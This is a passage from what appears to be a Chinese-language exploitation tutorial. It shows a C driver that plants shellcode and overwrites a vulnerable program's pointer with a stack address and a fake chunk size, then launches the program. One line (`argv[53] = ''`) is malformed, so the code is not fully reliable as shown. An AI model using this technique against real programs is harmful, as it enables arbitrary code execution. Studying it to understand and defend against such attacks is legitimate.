 ```

int main( void )
{
        int i;
        char * p;
        char argv1[54];
        char * argv[] = { VULNERABLE, argv1, NULL };

        strcpy(argv1,scode);

        /* Overwrite ptr1 in vuln with stack address - 0xbffffdf0\. Overwrite local_age in vuln with chunk size - 0x30 */
        strcpy(argv1+48,"\xf0\xfd\xff\xbf\x30"); 

        argv[53] = '';

        /* Execution of the vulnerable program */
        execve( argv[0], argv, NULL );
        return( -1 );
}
```

使用攻击者的参数之后，上述漏洞程序的栈布局：
